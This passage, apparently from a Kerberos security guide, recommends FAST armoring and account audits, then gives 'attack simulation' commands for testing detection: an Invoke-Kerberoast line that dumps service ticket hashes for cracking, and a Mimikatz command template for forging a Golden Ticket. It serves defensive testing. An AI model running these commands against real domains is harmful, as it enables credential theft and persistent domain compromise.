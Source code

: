 #### Kerberos Armoring
- **Enable FAST (Flexible Authentication Secure Tunneling)**:
  Use FAST to provide additional protection against Kerberos-related attacks by securing the pre-authentication process.

#### Auditing Account Configurations
- **Regular Account Audits**:
  Perform regular audits to identify accounts with SPNs, accounts with Pre-Auth disabled, and those with delegation rights.

## Attack Simulation with Kerberos

#### Simulating a Kerberoasting Attack
- **Invoke-Kerberoast**:
  ```powershell
  Invoke-Kerberoast -OutputFormat Hashcat | Out-File kerberoast.txt
  ```
  Simulate Kerberoasting to assess detection capabilities.

#### Simulating Golden Ticket Attack
- **Create Golden Ticket with Mimikatz**:
  ```powershell
  kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<NTLM_hash> /id:<user_id>
  ```
  Simulate a Golden Ticket attack and monitor the SIEM for alerts.